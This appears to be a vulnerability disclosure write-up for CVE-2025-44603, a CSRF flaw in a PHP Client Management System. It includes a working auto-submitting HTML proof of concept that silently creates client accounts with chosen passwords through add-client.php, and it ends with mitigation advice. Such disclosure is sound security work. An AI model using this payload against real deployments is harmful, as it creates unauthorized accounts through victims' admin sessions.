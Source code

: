 # CVE-2025-44603 (CSRF Vulnerability: Leads to Creating Fake Users)

## Introduction
Cross-Site Request Forgery (CSRF) is an attack where an authenticated user is tricked into submitting a malicious request to a web application. This can lead to unauthorized actions being performed on behalf of the user . In this report, we demonstrate how CSRF can be used to create fake users in a **Client Management System** and suggest mitigation strategies.

## Environment Setup
- Locally hosted **Client Management System** using **MySQL** and **PHP**.
- Functionality for adding clients and their services.

## Steps to Exploit CSRF

### 1. Login as Admin
Using provided credentials, log in to the Client Management System.

![Login as admin](https://github.com/user-attachments/assets/a52b86de-a945-424a-89fc-ef538af11ac0)

### 2. Add a New Client
- Select **Add Client** option.
- Enter the required client details.

![Adding new client](https://github.com/user-attachments/assets/f4589658-3bc8-485b-beec-f58280c63c91)
![Enter the client details](https://github.com/user-attachments/assets/a0a89e2d-743a-4bf0-887d-24ed8c9629d5)

### 3. Capture the Client Adding Request
1. Navigate to the **Save** button.
2. Set up **Burp Suite** to intercept requests
3. Click **Save** and capture the HTTP request before it reaches the server
4. Send the captured request to the **Repeater** tab without the session cookie for analysis

![Capturing the request in Burp](https://github.com/user-attachments/assets/2c3978f6-8518-4ca1-89c3-cc7a22a7cebe)
![Send to repeater](https://github.com/user-attachments/assets/be30ff6c-4dc5-4f18-af61-11bd81c526d1)

## CSRF Code for fake Users
Below is the **HTML PoC** for CSRF attack:

```html
<html>
  <body>
    <form action="http://localhost/clientms/admin/add-client.php" method="POST">
      <input type="hidden" name="accounttype" value="Active Account" />
      <input type="hidden" name="cname" value="moulimurugan" />
      <input type="hidden" name="comname" value="kppr" />
      <input type="hidden" name="address" value="vijayamangalam" />
      <input type="hidden" name="city" value="erode" />
      <input type="hidden" name="state" value="tamil" />
      <input type="hidden" name="zcode" value="638026" />
      <input type="hidden" name="wphnumber" value="968560710" />
      <input type="hidden" name="cellphnumber" value="6931052465" />
      <input type="hidden" name="ophnumber" value="9638560410" />
      <input type="hidden" name="email" value="moulimurugan@gmail.com" />
      <input type="hidden" name="password" value="moulimurugan" />
      <input type="hidden" name="websiteadd" value="clientmsdb" />
      <input type="hidden" name="notes" value="Nil" />
      <input type="hidden" name="submit" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Creating Fake Users
- Modify existing details to create **fake users**

![Adding fake user 1](https://github.com/user-attachments/assets/4b45fb41-3c40-4a6b-9dcf-525fc02eceaa)
![Adding fake user 2](https://github.com/user-attachments/assets/feb6cc10-f6b7-4276-ba5f-41e026f3fba2)

### Testing the CSRF PoC
1. Open the generated **CSRF PoC link** in a browser.
2. The webpage opens with a **Submit** button.
3. Click **Submit**, and the request executes, creating fake users.

![Open PoC in browser](https://github.com/user-attachments/assets/68b10332-3cc8-4d9c-8ccf-46af830ad9ba)
![Hit submit request](https://github.com/user-attachments/assets/59d29d18-7911-4f2b-b115-38946be339f8)

## Confirming Fake Clients Creation
- After submission, fake clients appear in the admin dashboard.

![Fake clients created](https://github.com/user-attachments/assets/ce96ec9b-4f7d-470c-89ed-a63bb79a341f)
![Multiple users created](https://github.com/user-attachments/assets/878be82c-87de-4201-aa4f-c08ed785fc20)

## Mitigation Strategies
To prevent CSRF attacks, implement the following measures:

1. **CSRF Tokens**
   - Use **anti-CSRF tokens** in all form submissions and verify them on the server-side.
2. **SameSite Cookies**
   - Set session cookies with `SameSite=Strict` or `SameSite=Lax` attributes.
3. **Referer and Origin Header Validation**
   - Validate the **Referer** and **Origin** headers before processing requests .
4. **User Authentication Checks**
   - Require **CAPTCHAs** for critical actions to prevent automated attacks .
5. **Restrict HTTP Methods**
   - Use `POST` for sensitive actions and **avoid processing GET requests** with side effects .

## Conclusion
This report demonstrates how CSRF vulnerabilities can be exploited to create unauthorized accounts in a **Client Management System**. Implementing the suggested mitigation strategies will help secure the application against such attacks.
